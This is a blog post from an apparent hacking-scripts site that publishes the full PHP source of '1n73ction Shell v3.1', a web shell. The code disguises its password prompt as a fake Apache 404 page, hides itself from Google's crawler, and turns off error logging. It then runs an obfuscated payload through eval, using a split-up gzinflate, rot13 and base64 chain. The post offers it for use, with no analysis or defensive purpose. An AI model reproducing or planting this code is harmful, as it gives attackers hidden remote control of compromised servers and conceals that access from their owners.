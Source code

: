 ```yaml
---
id: 234
title: 1n73ction Shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=234
permalink: /1n73ction-shell/
categories:
  - PHP
tags:
  - 1n73ction
  - PHP
---
```

1n73ction Shell v3.1 by x&#8217;1n73ct


### 1n73ction Shell v3.1 Source Code

{% highlight php linenos %}<?php
/* (1n73ction shell v3.1 by x'1n73ct|default pass:" 1n73ction ") */ 
$auth_pass = "b75d0fe83fb0e1631a47868c279c1c56"; 
$color = "#00ff00"; 
$default_action = 'FilesMan'; 
@define('SELF_PATH', __FILE__); 
if( strpos($_SERVER['HTTP_USER_AGENT'],'Google') !== false ) { 
    header('HTTP/1.0 404 Not Found'); 
    exit; 
} 
@session_start(); 
@error_reporting(0); 
@ini_set('error_log',NULL); 
@ini_set('log_errors',0); 
@ini_set('max_execution_time',0);
@ini_set('output_buffering',0); 
@ini_set('display_errors', 0);
@set_time_limit(0); 
@set_magic_quotes_runtime(0); 
@define('VERSION', '2.1'); 
if( get_magic_quotes_gpc() ) { 
    function stripslashes_array($array) { 
        return is_array($array) ? array_map('stripslashes_array', $array) : stripslashes($array); 
    } 
    $_POST = stripslashes_array($_POST); 
} 
function printLogin() { 
    ?> 
<h1>Not Found</h1> 
<p>The requested URL was not found on this server.</p> 
<hr> 
<address>Apache Server at <?=$_SERVER['HTTP_HOST']?> Port 80</address> 
    <style> 
        input { margin:0;background-color:#fff;border:1px solid #fff; } 
    </style> 
    <center> 
    <form method=post> 
    <input type=password name=pass> 
    </form></center> 
    <?php 
    exit; 
} 
if( !isset( $_SESSION[md5($_SERVER['HTTP_HOST'])] )) 
    if( empty( $auth_pass ) || 
        ( isset( $_POST['pass'] ) && ( md5($_POST['pass']) == $auth_pass ) ) ) 
        $_SESSION[md5($_SERVER['HTTP_HOST'])] = true; 
    else 
        printLogin();
		@ini_set('output_buffering',0); 
@ini_set('display_errors', 0);
function x($inject){eval("\$z=gz" . "inf" . "la" . "te(s" . "t" . "r_r" . "ot" . "13(ba" . "se" . "6" . "4" . "_" . "d" . "e" . "c" . "o" . "de(st" . "r" . "_" . "r" . "o" . "t" . "13(" . "gzi" . "nf" . "lat" . "e(" . "bas" . "e6" . "4_d" . "ec" . "ode(\$inject))))));eval(\$z);");}
x("DczdFkIwAADgB3Kx4+f4uehiJyJFM0bcjYPKqGbFPH19D/Adch2iLn+Qan8XlupmvkrlMEVX3NtyDS2gc9nTGF4X0yHDKSAFnPHHOkwhFNw5v0XIqMdyAylyc5r0ReRkzlhmX8y5Fizfz5rpiQsaz7jdWXZDUbJdcN2KqfRPLWnrJ6t88P9SpB5TNIws6KCxxSXvo3EugK2kQKNA2M66mLG72/0A");
?>
{% endhighlight %}